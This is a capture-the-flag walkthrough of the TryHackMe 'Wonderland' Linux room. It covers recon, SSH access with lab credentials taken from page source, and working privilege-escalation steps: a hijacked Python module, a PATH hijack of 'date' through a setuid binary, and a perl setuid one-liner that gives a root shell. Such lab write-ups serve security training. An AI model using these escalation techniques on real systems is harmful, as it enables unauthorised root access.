


# Wonderland

- **Title:** Wonderland
- **Creator:**[NinjaJc01](https://tryhackme.com/p/NinjaJc01).
- **URL:** https://tryhackme.com/room/wonderland
- **Difficulty:** Medium
- **Target:** Linux

---

## Initial Recon

I like to save the IP address to an environment variable for easy access:

```
$ export IP=10.10.13.18
```

Start by scanning the IP address with `nmap` to see what ports and services are
open.

```
$ nmap -sV -T4 -p- $IP -oN nmap_scan.txt

PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp    open     http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
6057/tcp  filtered x11
12749/tcp filtered unknown
36427/tcp filtered unknown
36937/tcp filtered unknown
43362/tcp filtered unknown
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- **-sV**: derect service version
- **-T4**: faster execution
- **-p-**: scan all ports
- **-oN**-: output to normal nmap format

We get back two open ports:

- **Port 22**: running OpenSSH version 7.6p1 for remote terminal access
- **Port 80**: running a Golang net web server, which is different than the typical Apache or Nginx web server
 
The rest of the listed ports are filtered, meaning they are likely behind a
firewall. We'll just focus on the open ports that we can access.

---

## Website Enumeration

Let's head to the web server first. Type the URL in a web browser:



Not much actionable info here. Let's throw `gobuster` at it to see if there are
any hidden directories.

```
$ gobuster -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
...
/img
/r
```

Hmmm. A /r location? The story *Alice in Wonderland* starts with Alice going down the
rabbithole to enter Wonderland, so maybe we have to do the same thing?

Enter `/r/a/b/b/i/t` into the URL to get to the following web page:


 
More lines from the book. I pressed Ctrl+U to examine the source code and found
what appears to be SSH credentials:



- **Username:** alice
- **Password:** HowDothTheLittleCrocodileImproveHisShiningTail

---

## Initial Access 

Using the above credentials, SSH into the remote host. 

```
$ ssh alice@$IP
```

Anything interesting in the home directory?

```
alice@wonderland:~$ ls -l
total 8
-rw------- 1 root root   66 May 25  2020 root.txt
-rw-r--r-- 1 root root 3577 May 25  2020 walrus_and_the_carpenter.py
```

A `root.txt` file that only the root user can read, and a Python script that we
can read but not modify.

No `user.txt` here. The TryHackMe hint stated that "Everything is upside down
here.", so the user flag must be in the root user's home directory!

```
alice@wonderland:~$ cat /root/user.txt
FLAG-REDACTED :)
```

---

## Privilege Escalation

### Becoming the rabbit user

What commands can we run with sudo privileges?

```
alice@wonderland:~$ sudo -l
Matching Defaults entries for alice on wonderland:
    env_reset, mail_badpass,
secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User alice may run the following commands on wonderland:
    (rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

The **rabbit** user can run the walrus_and_the_carpenter.py script with root
privileges. Let's check out that file further:

```
$ cat walrus_and_the_carpenter.py

import random
poem = """The sun was shining on the sea,
Shining with all his might:
He did his very best to make
The billows smooth and bright —
And this was odd, because it was
The middle of the night.

... truncated for brevity ...

for i in range(10):
    line = random.choice(poem.split("\n"))
    print("The line was:\t", line)
```


Ok, the script prints 10 lines from the poem at random. Notice the first line:

```
import random
``` 

The first place that Python checks for a module is the current working directory
(alice's home folder in our case). If it does not find the module there, it then
looks in system libraries and what not.
 
Knowing this, we can create our own `random.py` module that
`walrus_and_the_carpenter.py` will execute in order to become the rabbit user!


### random.py

Contents of our malicious random.py:

```
import os

os.system("/bin/bash")
```

A very simple script that executes `/bin/bash` to get a shell. Run as the rabbit
user:

```
alice@wonderland:~$ sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Confirm that we are the rabbit user:

```
rabbit@wonderland:~$ whoami
rabbit
rabbit@wonderland:~$ id
uid=1002(rabbit) gid=1002(rabbit) groups=1002(rabbit)
```

### Becoming the hatter user

Time to look around. I checked the rabbit user's home directory and found the
setuid `teaParty` binary.

We can inspect it with `cat`:

```
rabbit@wonderland:/home/rabbit$ cat teaParty                                                                                                                                                                     
ELF>@0:@8 
         @@@@hHH==   88-==hp-=DDPtd
<<QtdRtd-==/lib64/ld-linux-x86-64.so.2GNUGNUu2U~4?e|"mnA4t 
emZ <v 5   
         &"libc.so.6setuidputsgetcharsystem__cxa_finalizesetgid__libc_start_mainGLIBC_2.2.5_ITM_deregisterTMCloneTable__gmon_start___ITM_registerTMCloneTableui
...truncated...
The Mad Hatter will be here soon./bin/echo -n 'Probably by ' && date --date='next hour' -RAsk very nicely
```

The vulnerability is on the last line of the above output: the binary calls
`date` instead of `/bin/date`. Meaning, we can create a malicious `date` command
and have `teaParty` execute it with elevated privileges!

```
rabbit@wonderland:/home/rabbit$ echo "/bin/bash" > /dev/shm/date
rabbit@wonderland:/home/rabbit$ chmod +x /dev/shm/date
rabbit@wonderland:/home/rabbit$ export PATH=/dev/shm/:$PATH
```

Now execute the `teaParty` binary:

```
rabbit@wonderland:/home/rabbit$ ./teaParty
...
hatter@wonderland:/home/rabbit$ id
uid=1003(hatter) gid=1002(rabbit) groups=1002(rabbit)
```

We see that we have the hatter user id (uid), but still have the rabbit user's
group id (gid). The is because the `teaParty` binary had the setuid bit enabled,
not the setgid bit.

Let's check out the hatter home folder:

```
hatter@wonderland:/home/hatter$ ls
password.txt
hatter@wonderland:/home/hatter$ cat password.txt 
WhyIsARavenLikeAWritingDesk?
```

The hatter user's password! We can fully become the hatter user by running the
switch user command:

```
hatter@wonderland:/home/hatter$ su hatter
hatter@wonderland:~$ id
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
```

### Becoming the root user

Doing some enumeration (such as with LinPEAS or LinEnum) reveals that `perl` has
the `cap_setuid+ep` capability set. There is a
[GTFOBins entry](https://gtfobins.github.io/gtfobins/perl/#capabilities) for
this to become root:

```
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec
"/bin/sh";'
# whoami;id
root
uid=0(root) gid=1003(hatter) groups=1003(hatter)
```

Now we can *finally* print the `root.txt` flag:

```
# cat /home/alice/root.txt
x-Flag-Redacted-xj
```

---

## Lessons Learned
1. Don't place credentials in the source code of websites!
2. Specify full executable paths! We gained root access by writing exploiting
the `date` command.
3. The hatter user had their cleartext password in their home directory!
